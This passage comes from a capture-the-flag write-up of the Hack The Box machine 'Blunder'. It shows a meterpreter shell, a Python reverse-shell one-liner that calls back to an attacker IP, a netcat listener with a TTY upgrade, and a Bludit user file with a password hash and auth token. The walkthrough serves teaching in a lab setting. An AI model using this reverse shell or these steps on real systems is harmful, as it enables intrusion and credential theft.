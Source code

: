```terminal
meterpreter > shell
Process 3103 created.
Channel 0 created.
whoami
www-data
```

Since this shell is not really functional, let's get one by setting up a netcat listner on our machine and executing this command on the target machine. `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`.

>Note:don't forget to change the ip address on the code to yours!

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.191] 48274
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:$ export TERM=xterm
export TERM=xterm
www-data@blunder:$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

www-data@blunder:$
```

## Hugo

As user **www-data** we can't do much. Searching through directories and files of one of the bludit folders located in **/var/www**, we find a file that has **Hugo**'s password hash.

```terminal
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823cxxxxxxxxxxx",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
```
